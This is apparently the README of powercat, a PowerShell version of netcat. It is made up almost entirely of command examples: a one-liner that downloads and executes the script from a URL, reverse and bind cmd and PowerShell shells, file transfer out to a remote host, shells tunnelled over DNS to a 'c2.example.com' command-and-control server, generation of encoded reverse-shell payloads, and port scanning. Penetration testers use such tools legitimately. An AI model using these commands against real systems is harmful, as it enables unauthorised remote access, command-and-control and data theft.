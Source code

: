 powercat
========
Netcat: The powershell version. (Powershell Version 2 and Later Supported)

Installation
------------
powercat is a powershell function.  First you need to load the function before you can execute it.  You can put one of the below commands into your powershell profile so powercat is automatically loaded when powershell starts.
###
    Load The Function From Downloaded .ps1 File:
        . .\powercat.ps1
    Load The Function From URL:
        IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')

### Parameters:
    -l      Listen for a connection.                             [Switch]
    -c      Connect to a listener.                               [String]
    -p      The port to connect to, or listen on.                [String]
    -e      Execute. (GAPING_SECURITY_HOLE)                      [String]
    -ep     Execute Powershell.                                  [Switch]
    -r      Relay. Format: "-r tcp:10.1.1.1:443"                 [String]
    -u      Transfer data over UDP.                              [Switch]
    -dns    Transfer data over dns (dnscat2).                    [String]
    -dnsft  DNS Failure Threshold.                               [int32]
    -ssl    SSL mode                                             [String]
    -t      Timeout option. Default: 60                          [int32]
    -i      Input: Filepath (string), byte array, or string.     [object]
    -o      Console Output Type: "Host", "Bytes", or "String"    [String]
    -of     Output File Path.                                    [String]
    -d      Disconnect after connecting.                         [Switch]
    -rep    Repeater. Restart after disconnecting.               [Switch]
    -g      Generate Payload.                                    [Switch]
    -ge     Generate Encoded Payload.                            [Switch]
    -h      Print the help message.                              [Switch]

Basic Connections
-----------------------------------
By default, powercat reads input from the console and writes input to the console using write-host. You can change the output type to 'Bytes', or 'String' with -o.
###
    Basic Client:
        powercat -c 10.1.1.1 -p 443
    Basic Listener:
        powercat -l -p 8000
    Basic Client, Output as Bytes:
        powercat -c 10.1.1.1 -p 443 -o Bytes

File Transfer
-------------
powercat can be used to transfer files back and forth using -i (Input) and -of (Output File).
###
    Send File:
        powercat -c 10.1.1.1 -p 443 -i C:\inputfile
    Receive File:
        powercat -l -p 8000 -of C:\inputfile

Shells
------
powercat can be used to send and serve shells. Specify an executable to -e, or use -ep to execute powershell.
###
    Serve a cmd Shell:
        powercat -l -p 443 -e cmd
    Send a cmd Shell:
        powercat -c 10.1.1.1 -p 443 -e cmd
    Serve a shell which executes powershell commands:
        powercat -l -p 443 -ep

DNS and UDP
-----------
powercat supports more than sending data over TCP. Specify -u to enable UDP Mode. Data can also be sent to a [dnscat2 server](https://github.com/iagox86/dnscat2) with -dns. **Make sure to add "-e open --no-cache" when running the dnscat2 server.**
###
    Send Data Over UDP:
        powercat -c 10.1.1.1 -p 8000 -u
        powercat -l -p 8000 -u
    Connect to the c2.example.com dnscat2 server using the DNS server on 10.1.1.1:
        powercat -c 10.1.1.1 -p 53 -dns c2.example.com
    Send a shell to the c2.example.com dnscat2 server using the default DNS server in Windows:
        powercat -dns c2.example.com -e cmd

SSL
---
powercat also support SSL over TCP, making a connection that appears similar to HTTPS traffic.  Certificate names must match, and the listener generates a self-signed certificate on the fly.
###
    Open a SSL Listener
	    powercat -l -p 443 -s mycertname
    Connect to a SSL listener
        powercat -c 10.1.1.1 -p 443 -s mycertname

Relays
------
Relays in powercat work just like traditional netcat relays, but you don't have to create a file or start a second process. You can also relay data between connections of different protocols.
###
    TCP Listener to TCP Client Relay:
        powercat -l -p 8000 -r tcp:10.1.1.16:443
    TCP Listener to UDP Client Relay:
        powercat -l -p 8000 -r udp:10.1.1.16:53
    TCP Listener to DNS Client Relay
        powercat -l -p 8000 -r dns:10.1.1.1:53:c2.example.com
    TCP Listener to DNS Client Relay using the Windows Default DNS Server
        powercat -l -p 8000 -r dns:::c2.example.com
    TCP Client to Client Relay
        powercat -c 10.1.1.1 -p 9000 -r tcp:10.1.1.16:443
    TCP Listener to Listener Relay
        powercat -l -p 8000 -r tcp:9000

Generate Payloads
-----------------
Payloads which do a specific action can be generated using -g (Generate Payload) and -ge (Generate Encoded Payload). Encoded payloads can be executed with powershell -E. You can use these if you don't want to use all of powercat.
###
    Generate a reverse tcp payload which connects back to 10.1.1.15 port 443:
        powercat -c 10.1.1.15 -p 443 -e cmd -g
    Generate a bind tcp encoded command which listens on port 8000:
        powercat -l -p 8000 -e cmd -ge

Misc Usage
----------
powercat can also be used to perform portscans, and start persistent servers.
###
    Basic TCP Port Scanner:
        (21,22,80,443) | % {powercat -c 10.1.1.10 -p $_ -t 1 -Verbose -d}
    Start A Persistent Server That Serves a File:
        powercat -l -p 443 -i C:\inputfile -rep

